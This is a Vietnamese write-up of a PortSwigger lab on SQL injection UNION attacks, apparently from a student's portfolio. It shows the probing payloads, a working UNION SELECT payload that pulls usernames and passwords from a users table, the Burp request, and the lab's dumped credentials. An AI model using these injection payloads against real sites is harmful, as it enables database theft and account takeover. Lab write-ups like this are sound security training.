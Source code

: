 # Write-up: SQL injection UNION attack, retrieving data from other tables

### Tổng quan
Ghi lại quá trình khai thác SQLi để lấy thông tin trong DB có tên bảng : `users`, với tên cột: `username` và `password`

### Mục tiêu
Lấy được thông tin tài khoản `administrator` và login vào hệ thống.

### Các bước thực hiện
1. **Thu thập thông tin (Recon)**
- Kiểm tra tham số `category` trong URL (`filter?category=Gifts`) để kích hoạt lỗi SQL:
  - **Kết quả**:xuất hiện lỗi SQL, xác nhận lỗ hổng
    ![lỗi](./images/error.png)

- Xác định số cột
    ```
    'UNION SELECT NULL,NULL,NULL--
    ```
    - **Kết quả**: xác nhận có 2 cột
        ![cột](./images/column.png)

- Xác định kiểu dữ liệu trả về mỗi cột
    ```
    'UNION SELECT 'a','a'--
    ```
    - **Kết quả**: xác nhận kiểu dữ liệu 2 cột là string
        ![string](./images/string.png)


2. **Tạo Payload**

- Tạo payload kiểu tấn công UNION lấy dữ liệu user trong bảng `users`
    ```
    'UNION SELECT username,password FROM users--
    ```

3. **Khai thác(Exploitation)**
- Gửi payload qua Burp Repeater
    ```
    GET /filter?category=Gifts'UNION+SELECT+username,password+FROM+users-- HTTP/2
    ```
    - **Kết quả**: lấy được dữ liệu các user
        ![data](./images/data.png)
    `administrator`:`ho7ptwoc3mzuyy8ycdzp`
    `wiener`:`olp8fd5ota5fqiqssgld`
    `carlos`:`gbprc9z3xaivmodk6948`

- Login bằng tài khoản `administrator` và hoành thành bài lab
    ![login](./images/login.png)

### Bài học rút ra
- Sử dụng SQLi để lấy thông tin trong DB

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng SQL injection và sử dụng Burp Suite. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.